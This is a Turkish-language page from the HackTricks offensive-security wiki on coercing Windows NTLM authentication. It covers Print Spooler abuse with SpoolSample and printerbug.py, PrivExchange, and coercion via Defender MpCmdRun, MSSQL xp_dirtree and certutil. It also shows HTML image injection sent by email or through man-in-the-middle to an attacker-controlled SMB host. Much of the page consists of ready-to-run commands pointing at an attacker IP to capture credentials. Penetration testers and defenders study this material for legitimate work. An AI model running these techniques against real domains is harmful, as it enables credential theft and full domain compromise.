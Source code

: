 # NTLM Ayrıcalıklı Kimlik Doğrulamasını Zorla

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## SharpSystemTriggers

[**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers), 3. parti bağımlılıkları önlemek için MIDL derleyicisi kullanarak C# ile kodlanmış **uzaktan kimlik doğrulama tetikleyicileri** **koleksiyonu**dur.

## Spooler Servisi İstismarı

Eğer _**Print Spooler**_ servisi **etkinse**, bazı bilinen AD kimlik bilgilerini kullanarak Alan Denetleyicisi’nin yazıcı sunucusundan yeni yazdırma görevleri hakkında bir **güncelleme** **talep** edebilir ve sadece **bildirimi bazı sistemlere göndermesini** isteyebilirsiniz.\
Yazıcı, bildirimi rastgele sistemlere gönderdiğinde, o **sistemle** **kimlik doğrulaması yapması** gerekir. Bu nedenle, bir saldırgan _**Print Spooler**_ hizmetinin rastgele bir sistemle kimlik doğrulaması yapmasını sağlayabilir ve hizmet bu kimlik doğrulamasında **bilgisayar hesabını** **kullanacaktır**.

### Alan üzerindeki Windows Sunucularını Bulma

PowerShell kullanarak, Windows kutularının bir listesini alın. Sunucular genellikle önceliklidir, bu yüzden oraya odaklanalım:
```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```
### Spooler hizmetlerini dinleyenleri bulma

Biraz değiştirilmiş @mysmartlogin'in (Vincent Le Toux'un) [SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket) aracını kullanarak, Spooler Hizmetinin dinleyip dinlemediğini kontrol edin:
```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```
Linux'te rpcdump.py kullanabilir ve MS-RPRN Protokolü'nü arayabilirsiniz.
```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```
### Servisi rastgele bir ana bilgisayara kimlik doğrulaması yapması için isteyin

[ **Buradan SpoolSample'ı**](https://github.com/NotMedic/NetNTLMtoSilverTicket)** derleyebilirsiniz.**
```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```
ve Linux'taysanız [**3xocyte's dementor.py**](https://github.com/NotMedic/NetNTLMtoSilverTicket) veya [**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) kullanın
```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```
### Unconstrained Delegation ile Birleştirme

Eğer bir saldırgan [Unconstrained Delegation](unconstrained-delegation.md) ile zaten bir bilgisayarı ele geçirmişse, saldırgan **yazıcının bu bilgisayara kimlik doğrulaması yapmasını sağlayabilir**. Unconstrained delegation nedeniyle, **yazıcının bilgisayar hesabının TGT'si** unconstrained delegation ile bilgisayarın **belleğinde** **saklanacaktır**. Saldırgan bu hostu zaten ele geçirdiği için, **bu bileti alabilecek** ve bunu kötüye kullanabilecektir ([Pass the Ticket](pass-the-ticket.md)).

## RCP Zorla Kimlik Doğrulama

{% embed url="https://github.com/p0dalirius/Coercer" %}

## PrivExchange

`PrivExchange` saldırısı, **Exchange Server `PushSubscription` özelliğinde** bulunan bir hatanın sonucudur. Bu özellik, Exchange sunucusunun, bir posta kutusuna sahip herhangi bir alan kullanıcısı tarafından HTTP üzerinden herhangi bir istemci sağlanan hosta kimlik doğrulaması yapmaya zorlanmasını sağlar.

Varsayılan olarak, **Exchange servisi SYSTEM olarak çalışır** ve aşırı ayrıcalıklar verilmiştir (özellikle, **2019'dan önceki Kümülatif Güncelleme üzerinde WriteDacl ayrıcalıkları vardır**). Bu hata, **LDAP'ye bilgi iletimini sağlamak ve ardından alan NTDS veritabanını çıkarmak** için sömürülebilir. LDAP'ye iletim mümkün olmadığında bile, bu hata, alan içindeki diğer hostlara iletim ve kimlik doğrulama yapmak için kullanılabilir. Bu saldırının başarılı bir şekilde sömürülmesi, herhangi bir kimlik doğrulaması yapılmış alan kullanıcı hesabıyla Domain Admin'e anında erişim sağlar.

## Windows İçinde

Eğer zaten Windows makinesinin içindeyseniz, Windows'u ayrıcalıklı hesaplarla bir sunucuya bağlanmaya zorlayabilirsiniz:

### Defender MpCmdRun
```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```
### MSSQL
```sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```
Or use this other technique: [https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

### Certutil

certutil.exe lolbin (Microsoft imzalı ikili) kullanarak NTLM kimlik doğrulamasını zorlamak mümkündür:
```bash
certutil.exe -syncwithWU  \\127.0.0.1\share
```
## HTML enjeksiyonu

### E-posta ile

Eğer ele geçirmek istediğiniz bir makineye giriş yapan kullanıcının **e-posta adresini** biliyorsanız, ona **1x1 boyutunda bir resim** içeren bir **e-posta** gönderebilirsiniz.
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
ve açtığında, kimlik doğrulamaya çalışacaktır.

### MitM

Eğer bir bilgisayara MitM saldırısı gerçekleştirebilir ve onun görüntüleyeceği bir sayfaya HTML enjekte edebilirseniz, sayfaya aşağıdaki gibi bir resim enjekte etmeyi deneyebilirsiniz:
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
## NTLMv1 Kırma

Eğer [NTLMv1 zorluklarını yakalayabilirseniz, nasıl kırılacağını buradan okuyun](../ntlm/#ntlmv1-attack).\
_NTLMv1'i kırmak için Responder zorluğunu "1122334455667788" olarak ayarlamanız gerektiğini unutmayın._

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
